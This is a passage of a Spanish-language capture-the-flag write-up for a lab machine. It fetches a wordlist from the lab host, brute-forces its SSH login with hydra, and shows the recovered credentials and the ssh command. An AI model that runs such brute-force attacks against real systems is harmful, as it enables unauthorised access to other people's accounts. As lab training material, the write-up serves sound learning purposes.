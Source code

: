 ```bash
libc.so.6
_IO_stdin_used
printf
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
Find address 0x0856BF to proceed
;*2$"
GCC: (Ubuntu 4.8.2-19ubuntu1) 4.8.2
```
Al dirigirnos a http://10.0.1.19/0x0856BF/, nos encontramos con dos subdirectorios. En uno de ellos, encontramos un archivo llamado 'which_one_lol.txt', que parece contener una lista de palabras que podrían ser útiles para realizar un ataque de fuerza bruta contra la contraseña de inicio de sesión de SSH. En el otro subdirectorio, hallamos un archivo llamado 'Pass.txt', que contiene una pista sobre lo que podría ser una contraseña
```bash
wget http://10.0.1.19/0x0856BF/good_luck/which_one_lol.txt
```
En el caso de la contraseña, parece que ha habido una broma, ya que lo importante no es el contenido del archivo, sino su nombre en sí. La contraseña es simplemente 'Pass.txt'.
```bash
└─$ cat which_one_lol.txt 
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```
```bash
└─$ cat Pass.txt 
Good_job_:)
```
En el caso de la contraseña nos ha troleado, ya que lo que importa no es el contendio del fichero si no us nombre en si la contraseña es 'Pass.txt'. Realizamos un ataque de fuerza burta con la lista de palabtras y la cadena 'Pass.txt' con -p en minuscula especiifcamos una cadena
```bash
└─$ hydra -L dict.txt -p Pass.txt 10.0.1.19 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-10 06:23:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://10.0.1.19:22/
[22][ssh] host: 10.0.1.19   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-10 06:24:00
```
Con esta información, hemos obtenido las credenciales de usuario necesarias para acceder al servicio SSH
```bash
username: overflow
password: Pass.txt
```
```bash
ssh overflow@10.0.1.19
```